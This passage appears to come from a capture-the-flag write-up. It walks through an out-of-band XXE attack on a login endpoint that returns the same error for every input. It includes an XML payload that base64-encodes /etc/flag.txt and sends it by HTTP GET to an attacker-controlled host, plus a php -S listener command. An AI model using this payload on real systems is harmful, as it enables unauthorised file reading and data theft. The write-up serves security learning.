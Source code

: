 The second type of XXE attack is error based, but as we already noticed before, the error message is always the same whatever our input is. This renders error based XXE unusable.

So we are only left with Out-of-Band XXE. Let's take a deeper dive into OOB-XXE to see how we can use it to exploit the server.

Since we are working with Out-of-Band XXE we cannot see any results until we have completely fabricated a working exploit.

Now how would we be able to see the file contents of `/etc/flag.txt` when no data is rendered to the screen? One common method to overcome this problem is to exfiltrate data in the form of HTTP requests.

When exfiltrating data over internet, it's a good practice to encode the data in some way to maintain the integrity of the data.

We just need the server to do a simple HTTP GET request passing the encoded file contents as a GET parameter to a webserver that we have access to. The data encoding can be done for example with PHP's base64 filter.

Let's see how that looks in practice:
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE XXE [
	<!ENTITY % flag SYSTEM "php://filter/convert.base64-encode/resource=/etc/flag.txt">
	<!ENTITY % XXE "<!ENTITY exfil SYSTEM 'http://[IP REDACTED]/?flag=%flag;'>">
	%XXE;
]>
<creds>
	&exfil;
</creds>
```

This reads the file contents of `/etc/flag.txt` and converts them into base64. The encoded data is then saved to a parameter entity `flag`. After that the XXE parameter entity defines a general entity, which is later on referenced in the XML body.

This should trigger the server to make a HTTP GET request to our webserver passing the encoded file contents as a GET parameter.

Let's quickly set up our webserver with `php -S 0.0.0.0:80`

<img src="./attachments/php-server.png" width="500">

However, when we send that XML document to the server the same old bland response `Username or password not found! Try Harder!` is sent back and no connection is received on our webserver. Why does this happen?

Well according to the [World Wide Web Consortium's (W3C) recommendation on XML](https://www.w3.org/TR/2006/REC-xml-20060816/REC-xml-20060816.xml): parameter entity references must not occur within markup declarations in the internal DTD subset; However, that does not apply to references that occur in external parameter entities.
